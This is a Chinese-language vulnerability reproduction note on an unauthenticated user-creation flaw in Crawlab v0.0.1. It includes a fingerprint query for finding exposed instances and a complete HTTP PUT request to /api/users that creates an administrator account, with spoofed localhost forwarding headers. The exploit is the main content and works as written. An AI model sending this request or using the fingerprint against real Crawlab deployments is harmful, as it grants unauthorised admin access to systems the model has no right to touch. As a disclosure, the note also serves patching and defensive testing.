

# Crawlab users 任意用户添加漏洞

## 漏洞描述

Crawlab users 的 api 存在任意用户添加，且添加为未授权接口，可通过添加后在后台进一步攻击

## 漏洞影响

<a-checkbox checked>Crawlab v0.0.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Crawlab"</a-checkbox></br>

## 漏洞复现

登录页面


首先查看路由位置 main.go 文件


```python
anonymousGrou 中为匿名可调用方法
authGroup	  中为认证可调用方法
```

可以看到 Putuser方法为添加用户，但存在匿名调用


根据字段生成添加用户的请求

```python
PUT /api/users HTTP/1.1
Host: 
Content-Length: 83
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"username":"testppp","password":"testppp","role":"admin","email":"testppp@qq.com"}
```


